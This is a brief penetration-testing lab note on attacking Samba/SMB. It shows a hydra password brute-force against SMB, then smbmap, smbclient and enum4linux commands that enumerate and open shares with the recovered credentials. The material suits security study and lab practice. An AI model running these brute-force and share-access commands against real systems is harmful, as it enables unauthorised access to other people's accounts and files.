 
Related to [[SMB Enumeration]], [[Linux Exploitation]] and [[Metasploit]]

SAMBA uses port 445 by default, it is Linux's implementation of SMB.

We will use crackmapexec and psexec similarly as [[SMB Exploitation with PsExec]]

We can also use SMBMap and SMBClient.


(This is written as a lab writeup so the usernames is admin)

``` bash
hydra -l admin -P /usr/share/metasploit-framework/data/wordlists/unis_passwords.txt [rIP] smb
```

Once we have the password we can enumerate using SMBmap:

``` bash
smbmap -H [rIP] -u [username] -p [password]
```

Then we can access the shares with SMBClient:

``` bash
smbclient -L [rIP] -U [username]
```

We provide the password to the prompt

If we want to access a share:

``` bash
smbclient //[rIP]/[share] -U [username]
```

---

Using enum4linux:

``` bash
enum4linux -a -u [user] -p [password] [rIP]
```


